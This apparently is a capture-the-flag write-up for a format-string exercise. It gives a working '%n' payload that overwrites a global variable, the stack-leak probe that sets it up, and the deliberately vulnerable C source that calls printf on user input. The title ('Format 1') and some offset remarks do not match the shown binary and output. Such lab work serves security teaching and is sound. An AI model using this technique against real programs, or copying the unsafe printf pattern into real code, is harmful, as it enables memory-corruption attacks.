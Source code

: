 # Format 1

## Problem

```gdb
objdump -t format2 | grep target
>>>080496e4 g     O .bss   00000004              target
```

Again, we first find out the memory address of our target first. Using gdb, we are
able to quickly find the location to the variable. We plan to modify the variable
using string format, this time we have to write to the variable the value 64.

## Idea and Attack process

We first try to locate our variable first. This time we quickly find the target,
that is 2 positions below our injected string.

```gdb
python -c "print 'AAAA' + '%x.'*10" | ./format2
>>>AAAA200.b7fd8420.bffffb14.41414141.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.
```

We now want to write to the target value. We try different values to write to the
address and we eventually find that the combination below leads to the target
variable being modified.

```gdb
 python -c "print '\xe4\x96\x04\x08' + '%x.'*2 + '%47d' +'%n'" | ./format2
200.b7fd8420.                                    -1073743084
you have modified the target :)
```

## Source code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);
  printf(buffer);
  
  if(target == 64) {
      printf("you have modified the target :)\n");
  } else {
      printf("target is %d :(\n", target);
  }
}

int main(int argc, char **argv)
{
  vuln();
}
```
